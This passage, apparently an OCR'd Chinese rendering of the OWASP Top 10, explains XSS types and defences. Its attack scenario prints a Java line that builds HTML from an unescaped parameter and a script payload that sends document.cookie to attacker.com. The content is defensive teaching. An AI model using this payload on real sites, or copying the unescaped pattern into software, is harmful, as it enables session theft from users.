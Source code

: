 ```
应用服务器自带的示例应用程序没有从您的生产服务器中删除。该示例应用有已知安全漏洞，攻击者可以利用这些漏洞
破坏您的服务器。

场景#5：

默认配置或从别处拷贝来的老配置项激活了一个老的、含漏洞的协议或安全选项。这些是可被攻击者或恶意软件利用的。

### 2.9 A7-跨站脚本（XSS）

XSS 是指恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS 的分类：存储式跨站脚本攻击、反射跨站脚本攻击、基于DOM的XSS.

XSS是OWASP Top10中第二普遍的安全问题，存在于近三分之二的应用中。自动化工具能自动发现一些XSS问题，特别是在一些成熟的技术中，如：PHP、J2EE或JSP、ASP.NET。

#### 2.9.1 我的应用中存在跨站脚本（XSS）脆弱么?

存在三种XSS类型：
##### 反射式XSS：

你的应用中包含未验证的或未编码的用户输入，并作为HTML或者其他未启用CSP（Content Security Policy）头的一部分输出。成功的攻击将在受害者的浏览器上执行任意HTML或JS代码。

一般而言，用户需要点击链接或与其他攻击者控制页面做交互。

##### 存储式XSS：

你的应用或者API将未净化的用户输入存储下来了，并在后期在其他用户或者管理员的页面展示出来。

存储型XSS一般被认为是高危或严重的风险。

##### 基于DOM的XSS：

会动态的将攻击者可控的内容加入页面的JavaScript框架、单页面程序或API存在这种类型的漏洞。理想的来说，你应该避免将攻击者可控的数据发送给不安全的JavaScript API。

典型的XSS攻击可导致:盗取session、账户、绕过MFA、DIV替换、对用户浏览器的攻击（例如：恶意软件下载、键盘记录）以及其他用户侧的攻击。
 
#### 2.9.2 如何防止？

防止XSS需要将不可信数据与动态的浏览器内容区分开。

- 从设计源头考虑解决XSS问题，例如使用能够自动编码的框架，如：Ruby 3.0或 React JS。
- 为了避免服务器XSS，最好的办法是根据数据将要置于的HTML上下文（包括：主体、属性、JavaScript、CSS或URL）对所有的不可信数据进行恰当的排除 （escape） 。更多关于数据转义
技术的信息见：《OWASP XSS Prevention Cheat Sheet》 。
- 为了避免客户端XSS，最好的选择是避免传递不受信任的数据到JavaScript和可以生成活动内容的其他浏览器A PI。如果这种情况不能避免，可以采用《OWASP DOM based XSS Prevention
Cheat Sheet》描述的类似上下文敏感的转义技术应用于浏览器API。https://github.com/OWASP/CheatSheetSeries
- 使用内容安全策略（ CSP）是对抗XSS的深度防御策略。https://www.w3.org/TR/CSP2/ 和 https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

#### 2.9.3 攻击案例场景

应用程序在下面HTML代码段的构造中使用未经验证或未排除的不可信的数据：
```（ String ） page += "<input name='creditcard' type=' TEXT‘value='" + request.getParameter（"CC"） + "'>";```

攻击者在浏览器中修改“CC” 参数为如下值：

```'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.```

这个攻击导致受害者的会话ID被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

请注意攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF的详细情况见2013年版中的A8项

### 2.10 A8-不安全的反序列化
```
